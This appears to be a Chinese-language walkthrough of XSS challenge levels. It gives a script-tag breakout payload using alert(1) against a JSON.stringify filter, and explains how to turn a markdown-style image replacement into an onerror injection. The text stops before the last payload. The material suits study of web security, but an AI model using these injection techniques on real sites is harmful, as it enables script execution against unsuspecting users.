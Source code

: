 JSON.stringify将JavaScript值(对象或者数组)转化为一个 JSON字符串

输入`"`，变为`\"`,输入`\`变为`\\`

上一题的第二种方法依然可用

Payload

```
</script><script>alert(1)</script>//
```

Output

```javascript
<script>console.log("</script><script>alert(1)</script>//");</script>
```

Console output

```
Error: Uncaught SyntaxError: Invalid or unexpected token
```



## Markdown

```javascript
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

`s.replace(/</g, '&lt;').replace(/"/g, '&quot;');`将所有的`"`和`<`进行转义

`text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');`将所有形如`http://a `的字符串转化为

```
<a href="http://a">http://a</a>
```



```
text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
```

将所有形如`[[a|b]]`的字符串转化为

```
<img alt="b" src="a.gif">
```

利用`<a href="`的`"`闭合alt的`"`

利用`onerror`，在图片加载发生错误时执行js代码
